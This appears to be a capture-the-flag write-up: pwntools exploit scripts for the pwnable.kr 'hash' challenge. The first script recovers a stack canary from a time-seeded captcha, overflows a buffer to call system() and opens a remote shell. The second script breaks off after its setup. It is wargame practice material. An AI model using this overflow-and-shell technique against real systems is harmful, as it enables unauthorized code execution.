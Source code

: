 EXP2: 

canary.c needed

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *
import requests
import time

system_addr = 0x08049187
gbuf_addr = 0x0804B0E0
time_stamp = 0

def get_date():
    req = requests.get("http://pwnable.kr")
    date = req.headers.get("date").split(", ")[1].split(" GMT")[0]

    t_time = time.strptime(date, "%d %b %Y %H:%M:%S")
    global time_stamp
    time_stamp = int(time.mktime(t_time)) - 14400   # time on website later 4 hours with local time
                                                    # becase there are diffent time zone

r = remote("pwnable.kr", 9002)

get_date()

captcha = int(r.recvlines(2)[1].decode().split(": ")[1])

p = process(executable="./canary", argv=["./canary", str(time_stamp), str(captcha)])
canary = int(p.recvline().decode(), 16)

r.sendline(str(captcha).encode())

payload = b"k"*(512) + p32(canary) + b"k"*12 + p32(system_addr) + p32(gbuf_addr+1+716)
b64e_payload = b64e(payload).encode()

r.sendlineafter(b"Encode your data with BASE64 then paste me!\n", b64e_payload + b"\0" + b"/bin/sh")
r.interactive()
```

EXP3: 

Not canary.c needed

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *
import requests
import time
import ctypes

ll = ctypes.cdll.LoadLibrary
lib = ll("libc.so.6")

system_addr = 0x08049187
gbuf_addr = 0x0804B0E0
time_stamp = 0
canary = 0
rands = []

```